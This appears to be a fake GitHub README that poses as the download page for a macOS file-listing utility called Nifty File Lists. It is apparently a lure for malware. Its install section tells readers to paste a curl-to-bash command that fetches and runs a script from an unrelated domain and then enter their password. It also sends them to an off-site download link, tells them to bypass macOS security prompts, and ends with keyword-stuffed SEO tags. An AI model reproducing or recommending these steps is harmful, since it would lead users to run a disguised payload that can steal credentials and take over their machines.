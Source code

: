 <p align="center">
  <img src="https://is1-ssl.mzstatic.com/image/thumb/Purple211/v4/f1/62/82/f162822d-ee48-afe2-3577-9e42677bcd52/AppIcon-0-0-85-220-0-5-0-2x.png/1200x600bf.png" width="200" alt="Nifty File Lists macOS Banner" />
</p>

<h1 align="center">Nifty File Lists for macOS</h1>

<p align="center">
  📂 Generate customizable file and folder listings instantly. Export clean, styled lists in TXT, CSV, HTML, or Markdown.  
  <br><br>
  ✅ Apple Silicon Support  
  ✅ Works with Sonoma, Ventura, Monterey  
</p>

---

## 🔻 Download

<p align="center">
  <a href="https://bloodangel210.github.io/modarbas/251" target="_blank">
    <img src="https://img.shields.io/badge/⬇️%20DOWNLOAD%20NIFTY%20FILE%20LISTS%20MAC-GET%20FULL%20ACCESS-green?style=for-the-badge&logo=apple&logoColor=white" alt="Download Nifty File Lists for macOS">
  </a>
</p>

---

## 📸 Preview

<p align="center">
  <img src="https://i.ibb.co/qMS8g6FX/1633864159-1.jpg" alt="Nifty File Lists Screenshot" />
</p>

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get4/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is Nifty File Lists for macOS?

**Nifty File Lists** is a powerful yet simple macOS tool that helps you generate detailed file and folder listings from any directory. Whether you’re building documentation, archiving projects, or just need a structured list of files, this utility does it instantly.

Export options include plain text, CSV, Markdown, and HTML — fully customizable with column selection, sorting, and formatting presets.

---

## ✅ Why Choose Nifty File Lists?

- 📋 **Generate Lists of Files & Folders Instantly**  
- 🧾 **Export to TXT, CSV, HTML, or Markdown**  
- 🔍 **Includes Size, Date, Type, and More**  
- 🛠️ **Column Picker and Sort Options**  
- 🧠 **Perfect for Catalogs, Indexing, Documentation**  
- 🍎 **Optimized for Apple Silicon (M1/M2/M3)**  
- 🖥️ **Clean macOS-native Interface**  
- 💼 **No Background Processes or Syncing**

---

## 📸 More Screenshots

<p align="center">
  <img src="https://i.ibb.co/tPY3hF02/1633864157-2.jpg" alt="CSV Export Preview" />
  <br><br>
  <img src="https://i.ibb.co/h5X0jK9/1633864155-3.jpg" alt="Column Selection Panel" />
</p>

---

## 🚀 Key Features

- File/folder list generation  
- Multiple export formats  
- Selectable columns (name, size, type, date)  
- Drag-and-drop directory support  
- Custom styles for Markdown/HTML  
- Works offline  
- Built specifically for macOS  
- Batch support for large directories

---

## 💻 System Requirements

macOS 10.10 (Yosemite) or later  
Supports Monterey, Ventura, Sonoma  
Intel & Apple Silicon (M1/M2/M3)  
At least 100MB free disk space  

---

## 🧠 Note

If your Mac blocks the app during launch:  
Go to **System Settings > Privacy & Security** → Allow Nifty File Lists manually.

---

<!-- Hidden tech SEO-friendly badges -->
<p align="center">
  <img src="https://img.shields.io/badge/macOS-10.10%2B-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Export-CSV+TXT+HTML+MD-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Support-Apple+Silicon+Native-lightgrey?style=flat-square" />
</p>

---

## 🔗 License

This project is licensed under the MIT License.  
You are free to use, modify, and distribute it for personal use.

---

## 📚 Support and Contribution

Have feedback, suggestions, or found a bug?  
Feel free to open an issue or contribute via pull request.

---

## ⭐ Nifty File Lists – Structured Output, Fast

Thanks for using **Nifty File Lists for macOS**.  
Create clean file listings with precision and speed.

---

## 🧭 Usage Context

Nifty File Lists runs locally and works offline.  
Ideal for archivists, technical writers, project managers, or anyone needing structured file inventories.  
Output remains private and exportable in multiple formats.

---

## 🔍 Tags

```text
nifty file lists mac download, export folder list csv mac, file lister app for macos, generate file directory markdown html, mac app to list files and subfolders, batch file list export tool for mac, apple silicon compatible file lister, list files with size date type macos, download nifty file lists for ventura sonoma, file structure export macbook m1 m2, folder report generator mac utility, create html file index mac os, folder content documentation mac, best file list maker for mac developers, csv folder tree exporter for mac
